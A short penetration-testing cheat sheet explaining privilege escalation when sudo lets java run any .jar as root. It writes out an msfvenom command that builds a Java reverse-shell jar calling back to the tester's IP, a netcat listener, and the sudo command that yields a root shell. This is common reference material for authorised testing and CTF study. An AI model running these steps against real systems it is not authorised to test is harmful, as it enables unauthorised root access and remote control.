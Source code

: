 ```yaml
---
title: Sudo Java Privilege Escalation
description: Sudo Java is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
date: 2023-02-14
draft: false
---
```


## Investigation

```bash
sudo -l

(root) /usr/bin/java -jar *.jar
```

If we can execute java command with arbitrary **`.jar`** file as root, we can escalate to privileges.

<br />

## Exploitation

### 1. Create a JAR File

First, create a custom jar file in local machine.  
Replace **`<local-ip>`** with your local ip address.

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<local-ip> LPORT=4444 -f jar -o shell.jar
```

Then transfer the file to remote machine.

### 2. Reverse Shell

In local machine, start a listener.

```bash
nc -lvnp 4444
```

Now execute the java command as root in target machine.

```bash
sudo /usr/bin/java -jar /tmp/shell.jar
```

We should get a root shell.